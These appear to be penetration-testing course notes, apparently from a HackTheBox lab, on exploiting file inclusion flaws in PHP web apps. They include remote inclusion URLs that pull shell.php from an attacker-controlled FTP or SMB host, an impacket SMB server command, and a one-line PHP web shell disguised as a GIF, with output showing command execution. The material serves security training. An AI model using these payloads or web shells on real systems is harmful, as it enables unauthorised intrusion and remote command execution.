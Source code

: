 - get request to the URL

```url
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

- get request with cURL
```sh
thnwht@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Through SMB

- if vulnerable web application is hosted on a Windows server, then we do not need the `allow_url_include` setting to be enabled

```sh
thnwht@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

- get request
```url
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\shell.php&cmd=whoami
```

# LFI and File Uploads

## Image upload

### Crafting malicious image

- create a malicious image containing a PHP web shell code that looks and works as an image
```sh
thnwht@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
- upload that pretended gif file 
- find the path (location) that image was stored (easily be found or fuzz the file path)
- suppose the image path as 
```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

- get the URL with LFI vulns
```url
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```
